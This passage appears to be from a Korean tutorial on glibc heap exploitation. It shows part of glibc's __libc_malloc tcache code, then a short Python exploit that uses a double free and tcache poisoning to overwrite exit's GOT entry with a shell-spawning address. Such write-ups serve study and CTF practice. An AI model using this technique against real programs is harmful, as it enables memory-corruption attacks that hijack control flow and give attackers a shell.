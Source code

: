     3046       /*&& tc_idx < TCACHE_MAX_BINS*/ /* to appease gcc */
    3047       && tcache
    3048       && tcache->entries[tc_idx] != NULL)
    3049     {
    3050       return tcache_get (tc_idx);
    3051     }
    3052   DIAG_POP_NEEDS_COMMENT;
    3053 #endif
    3054 
    3055   if (SINGLE_THREAD_P)
    3056     {
    3057       victim = _int_malloc (&main_arena, bytes);
    3058       assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
    3059               &main_arena == arena_for_chunk (mem2chunk (victim)));
    3060       return victim;
    3061     }
    3062 
    3063   arena_get (ar_ptr, bytes);
    3064 
    3065   victim = _int_malloc (ar_ptr, bytes);
    3066   /* Retry with another arena only if we were able to find a usable arena
    3067      before.  */
    3068   if (!victim && ar_ptr != NULL)
    3069     {
    3070       LIBC_PROBE (memory_malloc_retry, 1, bytes);
    3071       ar_ptr = arena_get_retry (ar_ptr, bytes);
    3072       victim = _int_malloc (ar_ptr, bytes);
    3073     }
    3074 
    3075   if (ar_ptr != NULL)
    3076     __libc_lock_unlock (ar_ptr->mutex);
    3077 
    3078   assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
    3079           ar_ptr == arena_for_chunk (mem2chunk (victim)));
    3080   return victim;
    3081 }
    ```
    

### 결론

tcache에 존재하는 chunk의 개수를 세는 변수 `tcache->counts[tc_idx]`의 값을 신경쓰지 않고 아래와 같이 exploit을 위해 DFB를 일으켰다고 생각해보자.

```python
# ...
# DFB
create(0x30, "A")

delete(0)

modify(0, 10, "AAAAAAAAB")
delete(0)

# overwrite GOT
create(0x30, p64(exit_got))
create(0x30, "AAAA")
create(0x30, p64(get_shell))

delete(7) # exit을 실행

p.interactive()
```
